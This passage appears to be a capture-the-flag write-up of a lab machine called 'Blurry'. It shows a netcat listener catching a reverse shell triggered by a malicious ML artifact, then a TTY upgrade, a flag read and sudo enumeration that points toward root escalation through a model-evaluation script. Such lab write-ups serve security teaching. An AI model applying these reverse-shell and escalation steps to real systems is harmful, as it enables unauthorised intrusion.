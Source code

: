 We then set up a listener with `netcat` to receive the reverse shell and run the script in parallel.

```
nc -lnvp 1234
```

```
python exploit.py
```

We wait a few minutes for the `Review JSON Artifacts` experiment to run again, calling `get()` on our malicious artifact. A reverse shell will then connect as the user `jippity`.

```
jippity@blurry:~$ 
```

To have a more comfortable working environment, we adjust the TTY settings. We run:

```
script /dev/null -c bash
```

Press `Ctrl` + `z`, and then execute the following commands in order:

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=`which bash`
```

As the `jippity` user, we can now read the `user.txt` flag:

```
cd
cat user.txt
```

Next, we try to see if we can execute any commands as `root` without providing a password using `sudo`:

```
sudo -l


Matching Defaults entries for jippity on blurry:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
```

Upon inspecting the `/usr/bin/evaluate_model` script, we discover that it simply runs the Python script `/models/evaluate_model.py` with the first argument passed to the script, for example:

```bash
/usr/bin/evaluate_model /models/test.pth
# This is the same as:
/usr/bin/python3 /models/evaluate_model.py /models/test.pth
```
